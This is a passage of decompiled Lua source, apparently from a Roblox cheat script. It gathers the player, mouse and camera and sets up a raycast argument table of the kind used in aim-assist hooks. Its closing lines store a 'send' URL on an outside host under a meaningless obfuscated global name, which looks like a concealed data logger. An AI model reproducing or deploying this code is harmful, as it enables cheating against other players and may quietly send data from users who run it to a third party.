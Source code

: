     end
  end
end
Request = L9_1
L9_1 = Players
L9_1 = L9_1.LocalPlayer
Player = L9_1
L9_1 = Player
L9_1 = L9_1.Character
if not L9_1 then
  L9_1 = Player
  L10_1 = "CharacterAdded"
  L9_1 = L9_1[L10_1]
  L11_1 = "Wait"
  L10_1 = L9_1
  L9_1 = L9_1[L11_1]
  L9_1 = L9_1(L10_1)
end
Character = L9_1
L9_1 = Player
L11_1 = "GetMouse"
L10_1 = L9_1
L9_1 = L9_1[L11_1]
L9_1 = L9_1(L10_1)
Mouse = L9_1
L9_1 = workspace
L10_1 = "CurrentCamera"
L9_1 = L9_1[L10_1]
Cam = L9_1
L9_1 = Cam
L10_1 = "WorldToScreenPoint"
L9_1 = L9_1[L10_1]
WorldToScreen = L9_1
L9_1 = Cam
L10_1 = "WorldToViewportPoint"
L9_1 = L9_1[L10_1]
WorldToViewportPoint = L9_1
L9_1 = Cam
L10_1 = "GetPartsObscuringTarget"
L9_1 = L9_1[L10_1]
GetPartsObscuringTarget = L9_1
L9_1 = {}
L10_1 = "Raycast"
L11_1 = {}
L12_1 = "ArgCountRequired"
L13_1 = 3
L11_1[L12_1] = L13_1
L12_1 = "Args"
L13_1 = {}
L14_1 = "Instance"
L15_1 = "Vector3"
L16_1 = "Vector3"
L17_1 = "RaycastParams"
L13_1[1] = L14_1
L13_1[2] = L15_1
L13_1[3] = L16_1
L13_1[4] = L17_1
L11_1[L12_1] = L13_1
L9_1[L10_1] = L11_1
ExpectedArguments = L9_1
L9_1 = _G
L10_1 = "KWORIRHSNDIJQ"
L11_1 = "https://websec.services/send/62a443c68e7bc37463cc2832"
L9_1[L10_1] = L11_1